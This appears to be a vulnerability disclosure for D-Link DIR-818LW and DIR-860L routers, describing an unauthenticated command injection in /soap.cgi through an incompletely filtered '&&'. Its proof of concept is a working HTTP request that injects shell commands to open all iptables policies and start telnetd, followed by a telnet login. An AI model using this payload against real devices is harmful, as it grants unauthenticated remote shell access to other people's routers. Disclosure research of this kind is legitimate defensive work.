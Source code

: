 # D-Link Unauthenticated OS Command Injection

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vender**: D-Link

**Firmware version**:
DIR-818LW_REVA - 2.05.B03,
DIR-860L_REVB - 2.03.B03

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-818LW,
https://support.dlink.com/ProductInfo.aspx?m=DIR-860L

## The detail of vulnerability ##

I found unauthenticated remote code execution vulnerability in `soapcgi_main` function of `cgibin` binary.

On the `/soap.cgi` HTTP POST message on `49152` port, with the `service` GET parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with [CVE-2018-6530](https://github.com/TheBeeMan/Pwning-multiple-dlink-router-via-SOAP-proto#0x04-details---lan---revab---command-injection-in-soap-controltype-url-interface), and some firmware was already added character sanitizing with `strchr` function.

However, on the firmware DIR-818LW_REVA_PATCH_2.05.B03, DIR-860L_REVB_2.03.B03; they not fully filtered the vulnerable character.

![](JEB.png)

With `&&` string, the device can be exploited, too.

## PoC

```
# nc 192.168.0.1 49152
POST /soap.cgi?service=&&iptables -P INPUT ACCEPT&&iptables -P FORWARD ACCEPT&&iptables -P OUTPUT ACCEPT&&iptables -t nat -P PREROUTING ACCEPT&&iptables -t nat -P OUTPUT ACCEPT&&iptables -t nat -P POSTROUTING ACCEPT&&telnetd -p 9999&& HTTP/1.1
Host: 192.168.0.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

# telnet 192.168.0.1 9999
```

